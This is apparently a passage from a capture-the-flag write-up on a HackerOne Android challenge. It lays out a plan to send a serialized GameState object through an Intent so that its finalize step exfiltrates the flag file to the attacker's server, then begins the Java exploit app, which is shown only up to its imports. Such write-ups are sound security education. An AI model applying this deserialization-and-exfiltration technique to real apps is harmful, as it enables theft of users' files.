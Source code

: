 The GameState object we passed through the Intent is never used again, so it calls finalize automatically. Easy. So now we have our attack plan:

1. Create GameState object with a BroadcastAnnouncer object with destUrl pointing to our server, and stringRef pointing to the flag path.
2. Solve the maze 3 times
3. Pass this object through an Intent to the app with the extra cereal
4. Collect the flag on our server!

We can solve the maze using [Breadth First Search](https://en.wikipedia.org/wiki/Breadth-first_search), and write the Intent in an Android app. Here is my code to do this.

```java
package alex.com.win;

import android.Manifest;
import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.content.IntentFilter;
import android.net.Uri;
import android.os.Environment;
import android.support.v4.content.FileProvider;
import android.support.v7.app.AppCompatActivity;
import android.os.Bundle;
import android.util.Log;

import com.hackerone.mobile.challenge4.BroadcastAnnouncer;
import com.hackerone.mobile.challenge4.GameState;
import com.hackerone.mobile.challenge4.StateController;
import com.hackerone.mobile.challenge4.StateLoader;

import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.BufferedWriter;
import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.FileWriter;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.PrintWriter;
import java.io.Serializable;
import java.util.ArrayList;
import java.util.Arrays;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedList;
import java.util.Queue;
import android.os.Handler;

public class MainActivity extends AppCompatActivity {

    static boolean[][] walls;
    static ArrayList position;

    static int moves;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
```